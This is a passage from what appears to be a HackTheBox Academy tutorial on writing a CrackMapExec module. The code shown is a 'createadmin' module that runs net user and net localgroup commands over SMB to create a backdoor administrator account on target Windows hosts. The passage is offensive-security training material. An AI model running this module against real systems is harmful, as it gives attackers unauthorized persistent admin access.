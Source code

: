 ```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# from .... import ....

class CMEModule:
    '''
        Created to teach HackTheBox Academy students how to create a module for CrackMapExec
        Reference: https://academy.hackthebox.com/

        Module by @juliourena 
    '''

    name = 'createadmin'
    description = "Create a new administrator account"
    supported_protocols = ['smb']
    opsec_safe = True
    multiple_hosts = True

    def options(self, context, module_options):
        '''
        USER    Choose a username for the administrator account. Default: plaintext
        PASS    Choose a password for the administrator. Default: HackTheBoxCME1337!
        '''

        self.user = "plaintext"
        if 'USER' in module_options:
            if module_options['USER'] == "":
                context.log.error('Invalid value for USER option!')
                exit(1)
            self.user = module_options['USER']

        self.password = "HackTheBoxCME1337!"
        if 'PASS' in module_options:
            if module_options['PASS'] == "":
                context.log.error('Invalid value for PASS option!')
                exit(1)
            self.password = module_options['PASS']

    def on_admin_login(self, context, connection):
        ...SNIP...
```

4. Next, we will work with the execution using the method `on_admin_login()`. This method is responsible for taking our variables and executing any task we want to the targets. We will use the `context.log.info` and `context.log.highlight` methods as output (they have different colors).

For this execution, we will run a `cmd.exe` command using the method's `connection.execute(command, True)`. Our command will be saved in the variable `command` with the value `net user username password /add /Y` to add a new user and the value `net localgroup administrators username /add` to add the user to the group administrators.

```python
...SNIP...

def on_admin_login(self, context, connection):
    context.log.info('Creating user with the following values: USER {} and PASS {}'.format(self.user,self.password))
    command = '(net user ' + self.user + ' "' + self.password + '" /add /Y && net localgroup administrators ' + self.user + ' /add)'
    context.log.info('Executing command')
    p = connection.execute(command, True)
    context.log.highlight(p)
```
